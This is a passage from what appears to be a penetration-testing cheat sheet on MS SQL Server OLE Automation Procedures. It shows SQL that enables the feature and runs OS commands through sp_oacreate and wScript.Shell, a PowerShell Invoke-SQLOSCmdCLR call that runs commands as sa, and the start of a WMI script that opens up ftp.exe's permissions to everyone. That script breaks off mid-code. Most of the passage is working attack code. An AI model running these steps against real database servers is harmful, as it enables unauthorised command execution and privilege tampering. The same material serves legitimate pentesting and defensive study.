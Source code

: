 ### OLE Automation Procedure

- Disabled by default
- `sysadmin` privileges are required by-default.
- Execution takes place with privileges of the service account
- Execute privileges on `sp_OACreate` and `sp_OAMethod` can also be used for execution.
- References:
  - <https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option>
- Enabling:
    ```sql
    sp_configure 'show advanced options', 1;
    GO
    RECONFIGURE;
    GO
    sp_configure 'Ole Automation Procedures', 1;
    GO
    RECONFIGURE;
    GO
    ```
- Execute:
    ```sql
    DECLARE @output INT
    DECLARE @ProgramToRun VARCHAR(255)
    SET @ProgramToRun = 'Run("calc.exe")'
    EXEC sp_oacreate 'wScript.Shell', @output out
    EXEC sp_oamethod @output, @ProgramToRun
    EXEC sp_oadestroy @output
    ```
    ```powershell
    Invoke-SQLOSCmdCLR -Username sa -Password pw -Instance instance -Command "whoami" -Verbose
    ```
- Example: Sets SecurityDescriptor of ftp.exe to everyone:
  - <https://malwaremusings.com/2013/04/10/a-look-at-some-ms-sql-attacks-overview/>
    ```sql
    -- Declare variables used to reference the objects
    DECLARE @objLocator int,@objWmi int,@objPermiss int,@objFull int;

    -- Create a WbemScripting.SWbemLocator object
    EXEC sp_OACreate 'WbemScripting.SWbemLocator',@objLocator OUTPUT;

    -- Use the SWbemLocator object's ConnectServer() method to connect to the
    -- local WMI server. The connection will be to the 'root\cimv2' namespace
    EXEC sp_OAMethod @objLocator,
    'ConnectServer',@objWmi OUTPUT,'.','root\cimv2';

    -- Retrieve an SWbemObject that represents the requested object
    -- In this case, a Win32_LogicalFileSecuritySetting object for 'ftp.exe'
    EXEC sp_OAMethod @objWmi,
    'Get',@objPermiss OUTPUT,
    'Win32_LogicalFileSecuritySetting.Path=''ftp.exe''';

    -- Create an empty SecurityDescriptor
    EXEC sp_OAMethod @objWmi,'Get',@objFull
    OUTPUT,'Win32_SecurityDescriptor';
